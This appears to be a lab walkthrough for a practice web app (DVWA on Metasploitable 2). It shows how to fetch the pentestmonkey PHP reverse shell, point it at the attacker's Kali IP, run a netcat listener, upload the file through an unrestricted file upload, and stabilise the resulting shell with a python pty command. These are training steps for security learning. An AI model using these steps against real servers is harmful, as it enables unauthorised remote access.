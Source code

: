 
---
- Open your Metasploitable 2, and check its inet using the code *ifconfig*.
- Open your Kali Linux and open that IP address on your browser to open the metasploitable server where you will open DVWA known as Damn Vulnerable Web App, log into it with the username and password given.
- Before anything else open its security settings and turn the security level to low if its high or medium on default.
- Now at first we will try to upload a normal photo so download one from the internet and upload it, if it works go ahead.
- Now we will be downloading a reverse shell php so search on the browser, "reverse shell php pentestmonkey"
- Open that file and copy the raw, now open the cmd  and write **wget the copied link**.
```
cd Desktop
mkdir Webapp
cd Webapp
wget <the copied link>
mousepad <name of the reversephpfile>
```
- Now change the IP to the IP of the kali system, also you can change its port if you want to change.
```
netcat -lvnp 1234 (the port number you have in the reversephp file)
```
- Once you get the output such as "listening" then open the DVWA and upload the php file into it. 
- Now you need to open the uploaded path and open the php inside the DVWA.
- The path will look something like this : /../dvwa/vulnerabilities/upload
- This is not the exact one but you will get the gist.
- And now you are in the server and you can explore

#### Some Additional information
If you want the shell of the exploited server to run and look a little user friendly then give this command
```
python -c 'import pty; pty.spawn("/bin/sh")'
```
